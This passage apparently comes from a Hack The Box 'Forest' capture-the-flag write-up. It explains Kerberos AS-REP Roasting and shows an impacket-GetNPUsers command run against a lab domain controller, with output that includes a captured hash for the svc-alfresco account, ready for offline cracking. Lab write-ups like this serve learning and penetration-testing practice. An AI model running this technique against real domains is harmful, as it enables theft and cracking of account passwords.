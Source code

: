1. sebastien
2. lucinda
3. svc-alfresco
4. andy
5. mark
6. santi

### AES-REP Roasting

AS-REP Roasting is an attack technique that allows adversaries to steal the password hashes of user accounts where Kerberos pre-authentication is disabled, enabling them to attempt offline password cracking.

Under normal circumstances, when pre-authentication is enabled, a user initiating a Kerberos authentication request sends an Authentication Server Request (AS-REQ) message to the domain controller (DC). This message includes a timestamp encrypted with the user's password hash. If the DC can successfully decrypt the timestamp using the user's stored password hash, it responds with an Authentication Server Response (AS-REP) message, which contains a Ticket Granting Ticket (TGT) from the Key Distribution Center (KDC). The TGT is used to authenticate the user for subsequent access requests.

However, if Kerberos pre-authentication is disabled for an account, an attacker can request authentication data for any user. In this case, the DC responds with an AS-REP message, which includes an encrypted section that is tied to the user's password. Since the encryption is based on the user’s password hash, an attacker can capture the AS-REP message and attempt to brute-force the password offline, bypassing the need for direct interaction with the DC.

While this vulnerability or misconfiguration is well-known and easily identified during penetration testing, most organizations—except for a few that maintain it for backward compatibility or application support—are generally protected from this attack. However, we will leave no stone unturned in our assessment.

Using `impacket-GetNPUsers` for **AS-REP Roasting**, we successfully retrieved the hashes for the `alfresco@HTB` account, which we can now attempt to crack offline.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/forest]
└─$ impacket-GetNPUsers htb/ -outputfile hashes -format hashcat -usersfile usernames.txt  -dc-ip 10.129.59.175 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB:e1765956ff8ea8dcc94165e0560b30d9$48ba6d336c9c3c9463f647c84747fbbc3797cdac336aa23004f37db14e4c4348119c70dfbbc554ef3ef3f936100fd73cb57c1bffb87d909988e52e4938e9f5a8e1bd3b35a4915cd5ea4f96e7ce3e585d61d3fced57302f3562dc7f6bbd127e8865cc991745d8e8e394f136fa5563eaf657449f09f85a65f7a2ebd78aee107bb1126ca136afa7b6fe4aa5276da139244a06cc2e0a523b277ecb7df745b20dc012c2baf425ca30f3190f5ed3f6fe3ab9f6be7f4cbd4d17958cfe735aad37e2de2d30c1dc0ff3e5c37fdef5f0debb4c1f05534d3a136b33b081333e86139d19a4e0
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```
